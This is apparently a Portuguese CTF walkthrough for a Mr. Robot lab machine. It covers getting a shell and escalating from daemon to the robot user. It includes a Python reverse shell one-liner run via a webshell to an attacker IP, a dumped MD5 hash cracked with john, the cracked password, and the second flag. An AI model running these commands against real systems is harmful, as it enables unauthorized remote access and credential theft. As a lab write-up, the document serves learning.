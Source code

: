 Recebemos nossa reverse shell apos executar o comando abaixo via webshell

```python
export RHOST="10.6.125.125";export RPORT=4443;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```
{: .nolineno }

## **Exploração**

na /home tem o usuário robot

```shell
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat pas	
cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Temos essa hash que coloquei no john seguindo o format que esta no nome do arquivo

![Alt text](/assets/img/mrrobot8.png)

## **Escalação de Privilégio**
### Escalando para robot e key 2

```shell
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ 
robot@linux:~$ cat ke	
cat key-2-of-3.txt 
822c73956184f694993bede3eb39f959
robot@linux:~$ 
```
{: .nolineno }

